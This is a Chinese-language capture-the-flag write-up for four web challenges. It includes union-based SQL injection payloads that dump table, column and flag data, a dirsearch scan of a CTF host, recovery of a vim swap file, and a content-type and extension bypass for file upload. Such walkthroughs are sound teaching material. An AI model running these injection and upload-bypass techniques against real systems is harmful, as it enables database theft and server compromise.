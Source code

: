 ## web1

抓包，改成want=flag就可以拿到flag。

![image-20231109112115961](CTF-2.assets/image-20231109112115961.png)



## web2

f12看到tree：

![image-20231109114328699](CTF-2.assets/image-20231109114328699.png)

读nginx error log得到完整路径

![image-20231109112127477](CTF-2.assets/image-20231109112127477.png)

利用绝对路径来绕过读flag即可。

![image-20231109112159425](CTF-2.assets/image-20231109112159425.png)



## web3

以下payload都需要base64编码

```bash
#测试是数字型注入
-1 || 1=1
#测试有两列
-1 union select 1,2
#获取表名
-1 union select group_concat(table_name) from information_schema.tables where table_schema=database()
#获取列明
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'
#读取flag
-1 union select 1,value from flag
```







## web4

拿dirsearch.py扫目录得到`.index.php.swp`

```bash
python3.10 dirsearch.py -u http://222.186.168.238:30007/ -e '*'

[11:26:31] 200 -   20KB - /.index.php.swp
```

拿vim读取：

```bash
vim -r .index.php.swp

```

![image-20231109113616015](CTF-2.assets/image-20231109113616015.png)

首先拿`image/jpeg`绕过，然后上传一个正常的png文件，后缀改成.php，将filename md5后拼接上.php就可以得到flag。

![image-20231109113627268](CTF-2.assets/image-20231109113627268.png)

http://222.186.168.238:30007/f3b94e88bd1bd325af6f62828c8785dd.php